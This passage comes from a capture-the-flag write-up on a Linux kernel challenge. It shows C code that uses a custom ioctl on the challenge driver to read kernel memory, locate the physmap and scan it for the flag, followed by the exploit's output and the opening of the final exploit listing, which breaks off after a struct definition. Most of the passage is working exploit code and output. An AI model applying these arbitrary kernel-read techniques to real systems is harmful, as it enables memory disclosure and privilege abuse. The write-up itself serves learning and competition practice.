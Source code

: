 Now we know where the kernel .text is we can deduce by it the addres of the physmap and then we can simply look for the `icft` pattern while reading the whole physmap. Which gives:
```c
    printf("[!] physmap at %lx\n", kernel_text + 0x2c3b000);

    while (1) {
        req.kptr = kernel_text + 0x2c00000 + offt;
        if (ioctl(fd, 0x1337, &req)) {
            return -1;
        }

        for (size_t i = 0; i < 0x100; i += 4) {
            if (!memcmp(req.buf+i, "ictf", 4)) {
                printf("flag: %s\n", (char* )(req.buf+i));
            }
        }

        offt += 0x100;
    }
```

## PROFIT

Finally here we are:
```
mount: mounting host0 on /tmp/mount failed: No such device
cp: can't stat '/dev/sda': No such file or directory

Boot time: 2.78

---------------------------------------------------------------
                     _                            
                    | |                           
       __      _____| | ___ ___  _ __ ___   ___   
       \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \  
        \ V  V /  __/ | (_| (_) | | | | | |  __/_ 
         \_/\_/ \___|_|\___\___/|_| |_| |_|\___(_)
                                            
  Take the opportunity. Look through the window. Get the flag.
---------------------------------------------------------------
/ # ./exploit 
[!] kernel .text found at ffffffff8de00000
[!] physmap at ffffffff90a3b000
flag: ictf{th3_real_flag_was_the_f4ke_st4ck_canaries_we_met_al0ng_the_way}
```

# Annexes

Final exploit:

```c
#include <stdio.h>
#include <stdlib.h>
#include <inttypes.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <string.h>

typedef struct request_s {
    uint64_t kptr;
    uint8_t buf[256];
```